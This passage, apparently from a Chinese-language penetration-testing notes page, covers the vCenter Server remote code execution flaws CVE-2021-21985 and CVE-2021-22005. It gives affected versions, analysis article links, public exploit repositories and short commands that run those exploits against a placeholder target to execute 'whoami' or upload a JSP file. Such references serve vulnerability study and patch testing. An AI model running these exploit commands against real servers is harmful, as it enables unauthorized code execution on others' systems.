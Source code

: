 **相关文章**
- [VMware vCenter Server远程代码执行POC](https://www.hedysx.com/2761.html)
- [Vcenter Server CVE-2021-21985 RCE PAYLOAD](https://www.iswin.org/2021/06/02/Vcenter-Server-CVE-2021-21985-RCE-PAYLOAD/)
- [CVE-2021-21985: VMware vCenter Server RCE复现](https://mp.weixin.qq.com/s/_4YyfYvxmjg9s49ucsUt8Q)
- [CVE-2021-21985 vCenter Server 远程代码执行漏洞分析](http://noahblog.360.cn/vcenter-cve-2021-2021-21985/)

**POC | Payload | exp**
- [r0ckysec/CVE-2021-21985](https://github.com/r0ckysec/CVE-2021-21985)
    ```bash
    git clone https://github.com/r0ckysec/CVE-2021-21985.git
    cd CVE-2021-21985
    python3 CVE-2021-21985_echo.py https://x.x.x.x whoami
    ```
- [vCenter Server CVE-2021-21985 POC](https://mp.weixin.qq.com/s/KYG76IbR6PRs8PjrNDyVkQ)
- [alt3kx/CVE-2021-21985_PoC](https://github.com/alt3kx/CVE-2021-21985_PoC)

---

### CVE-2021-22005

**漏洞描述**

在 CVE-2021-22005 中，攻击者可构造恶意请求，通过 vCenter 中的 Analytics 服务，可上传恶意文件，从而造成远程代码执行漏洞。

**影响版本**
- VMware vCenter Server 7.0系列 < 7.0 U2c
- VMware vCenter Server 6.7系列 < 6.7 U3o
- VMware vCenter Server 6.5系列 不受该漏洞影响
- VMware Cloud Foundation (vCenter Server) 4.x
- VMware Cloud Foundation (vCenter Server) 3.x

**相关文章**
- [CVE-2021-22005-VMware VCenter Server 从目录穿越到命令执行（需CEIP开启）](https://mp.weixin.qq.com/s/gVsxziLqRQzb7QVOfyuBKw)
- [vCenter CVE-2021-22005](https://www.o2oxy.cn/3773.html)
- [VMware vCenter漏洞之CVE-2021-22005追踪记](https://web.archive.org/web/20211122052252/https://p0rz9.github.io/2021/10/vmware-vcenter-lou-dong-zhi-cve-2021-22005-zhui-zong-ji/)
- [CVE-2021-22005-VMware vCenter漏洞学习](https://mp.weixin.qq.com/s/EfmNK7Hb4rdm0L9mdz_bwg)

**POC | Payload | exp**
- [r0ckysec/CVE-2021-22005](https://github.com/r0ckysec/CVE-2021-22005)
- [shmilylty/cve-2021-22005-exp](https://github.com/shmilylty/cve-2021-22005-exp)
    ```bash
    # 该 exp 只能打目标为 Linux 版本的 vCenter
    git clone https://github.com/shmilylty/cve-2021-22005-exp.git
    cd cve-2021-22005-exp
    chmod +x exp.elf && ./exp.elf -t https://x.x.x.x -s hello.jsp
    ```
- [rwincey/CVE-2021-22005](https://github.com/rwincey/CVE-2021-22005)

---
